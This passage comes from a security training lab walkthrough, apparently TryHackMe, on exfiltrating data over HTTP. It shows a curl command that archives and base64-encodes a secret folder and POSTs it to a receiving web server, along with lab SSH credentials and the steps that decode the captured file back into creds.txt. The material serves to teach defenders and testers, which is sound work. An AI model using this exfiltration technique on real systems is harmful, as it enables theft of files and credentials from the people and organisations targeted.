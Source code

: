 Now that we have our data, we will be using the curl command to send an HTTP POST request with the content of the secret folder as follows,

Sending POST data via CURL  

```markup
thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php
```

We used the curl command with --data argument to send a POST request via the file parameter. Note that we created an archived file of the secret folder using the tar command. We also converted the output of the tar command into base64 representation.

Next, from the **victim1 or JumpBox** machine, let's log in to the webserver, web.thm.com, and check the /tmp directory if we have successfully transferred the required data. Use the following SSH credentials in order to login into the web: thm:tryhackme.

Checking the received data  

```markup
thm@victim1:~$ ssh thm@web.thm.com 
thm@web:~$ ls -l /tmp/
total 4
-rw-r--r-- 1 www-data www-data 247 Apr 12 16:03 http.bs64
thm@web:~$ cat /tmp/http.bs64
H4sIAAAAAAAAA 3ROw7CMBBFUddZhVcA/sYSHUuJSAoKMLKNYPkkgSriU1kIcU/hGcsuZvTysEtD<
WYua1Ch4P9fRss69dsZ4E6wNTiitlTdC qpTPZxz6ZKUIsVY3v379P6j8j3/8ejzqlyrrDgF3Dr3
On/XLvI3QVshVY1hlv48/64/7I bU5fzJaa 2c5XbazzbTOtvCkxpubbUwIAAAAAAAAAAAAAAAB4
5gZKZxgrACgAAA==
```

Nice! We have received the data, but if you look closely at the http.bs64 file, you can see it is broken base64. This happens due to the URL encoding over the HTTP. The + symbol has been replaced with empty spaces, so let's fix it using the sed command as follows,

Fixing thehttp.bs64 file!  

```markup
thm@web:~$ sudo sed -i 's/ /+/g' /tmp/http.bs64
```

Using the sed command, we replaced the spaces with + characters to make it a valid base64 string!

Restoring the Data

```markup
thm@web:~$ cat /tmp/http.bs64 | base64 -d | tar xvfz -
tmp/task6/
tmp/task6/creds.txt
```

Finally, we decoded the base64 string using the base64 command with -d argument, then we passed the decoded file and unarchived it using the tar command.

## HTTPS Communications

In the previous section, we showed how to perform Data Exfiltration over the HTTP protocol which means all transmitted data is in cleartext. One of the benefits of HTTPS is encrypting the transmitted data using SSL keys stored on a server.
